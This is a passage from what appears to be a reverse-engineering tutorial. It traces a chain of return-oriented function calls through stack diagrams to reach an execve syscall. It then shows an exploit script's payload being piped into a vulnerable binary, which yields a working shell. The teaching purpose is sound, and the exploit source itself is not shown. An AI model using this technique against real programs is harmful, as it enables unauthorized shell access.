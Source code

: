 4. **Stack4** is the current stack state. At the end of ```inst3()```, **ret** is executed. The following happens. 


    ```
	| inst4()'s address | <----- rsp                            | inst5()'s address | <----- rsp
    | inst5()'s address |                   inst3()'s ret       |                   |
    |                   |                ----------------->     |                   |           + Control is transfered to inst4()         
    |                   |                                       |                   |
    |                   |                                       |                   |
	
          Stack4                                                       Stack5
    ```

    * In 32-bit version, **rdx** is loaded with **0**. 
    * In 64-bit version, **rdx** is loaded with **0**. 

5. **Stack5** is the current stack state. At the end of ```inst4()```, **ret** is executed. The following happens. 

    ```
	| inst5()'s address | <----- rsp                            |                   | <----- rsp
    |                   |                   inst4()'s ret       |                   |
    |                   |                ----------------->     |                   |           + Control is transfered to inst5()         
    |                   |                                       |                   |
    |                   |                                       |                   |
	
          Stack5                                                       Stack6
    ```

    * In 32-bit version, ```int 0x80``` is executed. 
    * In 64-bit version, ```syscall``` is executed. 


6. **Stack6** is the current stack state. If **execve** is successful, control will never come back. To understand why, we have to discuss what **execve** is in detail which we can discuss in another post. Suppose **execve** fails, control returns back and it probably segfaults because we don't know where control is transfered to.  


That was the step-by-step analysis. I hope you have understood how functions are being chained in a particular order to get what we want - in this case a shell!

### 3. Running the exploit

Now that we are done understanding the exploit, let us run it and inject the payload into the vulnerable executable. Let us see what we get.

```
rev_eng_series/post_17}=)> chmod u+x exploit2.py
rev_eng_series/post_17}=)> ./exploit2.py 
Payload saved in file: payload.txt
rev_eng_series/post_17}=)> cat payload.txt - | ./code2

whoami
adwi

hostname -I
10.53.82.170 192.168.122.1 172.17.0.1 
hostname
adwi

^C
```